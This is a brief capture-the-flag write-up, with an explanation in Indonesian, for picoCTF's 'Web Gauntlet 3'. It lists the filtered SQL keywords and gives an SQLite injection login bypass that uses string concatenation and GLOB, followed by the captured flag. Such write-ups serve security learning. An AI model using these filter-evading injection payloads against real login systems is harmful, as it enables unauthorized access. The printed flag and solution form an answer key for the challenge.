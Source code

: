 <h1>Web Gauntlet 3</h3>
<p>Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:8650/ 
  Filter: http://mercury.picoctf.net:8650/filter.php</p>
<p>Hint :</p>
<ul>
  <li>Each filter is separated by a space. Spaces are not filtered.</li>
  <li>There is only 1 round this time, when you beat it the flag will be in filter.php.</li>
  <li>sqlite</li>
</ul>
<h3>Solution</h3>
<p>Filters: or and true false union like = > < ; -- /* */ admin</p>

```
Username : adm'||'min
Password : 'glob'*
```
<p align='justify'><b>adm'||'min</b> yang jika dieksekusi akan menjadi <b>admin</b> tetapi filter admin sebelumnya ter-bypass, sedangkan glob merupakan query yang menentukan string sebelumnya atau sesudahnya sesuai dengan field yang ada pada database</p>
<h3>Flag</h3>
<p>picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}</p>
